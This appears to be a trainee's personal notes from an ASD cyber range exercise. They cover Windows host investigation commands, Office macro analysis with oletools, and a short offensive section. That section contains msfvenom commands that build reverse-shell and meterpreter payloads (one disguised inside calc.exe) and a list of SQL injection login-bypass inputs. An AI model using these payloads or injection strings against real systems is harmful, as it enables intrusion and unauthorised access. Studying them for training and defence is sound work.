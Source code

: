 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

<details>
<summary><strong>🌐 LFE 1 Bangalore - Host-Based Threat Investigation</strong></summary>

### 🔎 Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

### 📊 Step 6: View Process Launch Events (Event ID 4688)
```powershell
# Open Event Viewer and filter:
# - Log: Security
# - Event ID: 4688
# - Time Range: Last hour or relevant window
```
> Then double-click an event and go to the **Details > Friendly View** tab. Look for:

- **New Process Name** → The process that was launched  
- **Creator Process Name** → The parent process that launched it  
- **Process Command Line** → (if enabled via Group Policy)  

🧠 For example:
```
New Process Name:     C:\Windows\System32\powershell.exe
Creator Process Name: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

> Enable command line logging via Group Policy:  
> `Computer Configuration > Administrative Templates > System > Audit Process Creation > Include command line in process creation events`

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🔎 Scenario: Multi-Stage Malware with Data Exfiltration

- Analyse a malicious Office macro embedded in a phishing document
- Trace execution of an obfuscated VB script delivering a reverse shell payload
- Investigate payload generated using `msfvenom` to understand its capabilities
- Identify encrypted files and inspect use of OpenSSL for local encryption
- Monitor network activity and identify exfiltration using Wireshark
- Discover and exploit an SQL injection vulnerability for unauthorised data access

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Recursive Scans:
```powershell
# Recursively analyse all documents in a folder
olevba -r C:\Path\To\Folder\*

# Optional flags:
olevba -r --decode C:\Path\To\Folder\*
olevba -r --json C:\Path\To\Folder\*
```

#### 🔁 mraptor (manual recursion):
```powershell
Get-ChildItem -Recurse -Filter *.doc* | ForEach-Object { mraptor $_.FullName }
```

#### 📄 Other Tools:
```powershell
olemeta suspicious.doc
olemeta --json suspicious.doc

oleid suspicious.doc
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc
rtfobj -d output suspicious.rtf
```

#### 🔍 Other Tool Explanations:
- `olemeta`: Extracts file metadata (author, creation date, etc.)
- `oleid`: Flags suspicious indicators (e.g. presence of macros or OLE objects)
- `oleobj`: Extracts embedded objects (e.g. a hidden .exe inside a Word file)
- `rtfobj`: Same as `oleobj`, but for RTF documents

### 💣 Payload Crafting with `msfvenom`
```powershell
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type
- `LHOST`: Attacker IP
- `LPORT`: Listener port
- `-f`: Output format (e.g. exe, elf, psh)
- `-o`: Output file
- `-e`: Encoder
- `-i`: Iterations
- `-x`: Inject into another executable

#### 🧰 Examples:
```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```powershell
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📡 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics

**SQL injection** was found in a web-based login form hosted on the compromised environment.

#### Sample Inputs:
```text
Username: ' OR 1=1;--
Password: anything

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything

Username: ' OR 1=1 LIMIT 1;--
Password: doesn't matter

Username: admin')--
Password: test

Username: ' UNION SELECT null, version();--
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```

</details>
